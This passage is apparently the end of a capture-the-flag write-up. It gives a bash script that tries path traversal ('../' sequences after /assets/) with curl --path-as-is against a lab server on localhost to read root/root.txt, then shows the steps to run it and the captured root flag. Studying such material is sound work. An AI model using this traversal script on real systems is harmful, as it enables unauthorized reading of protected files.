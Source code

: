 ```
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

```ad-hint
1. Create a `exp.sh` file with the contents shown above.
2. `chmod +x exp.sh`
3. `./exp.sh`
4. Get your root flag!

### Output
---
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250109173841.png)

Root: `2cbb12ac6cf8301162f1db597fd5ee7c`
```


Just like that, machine is done!

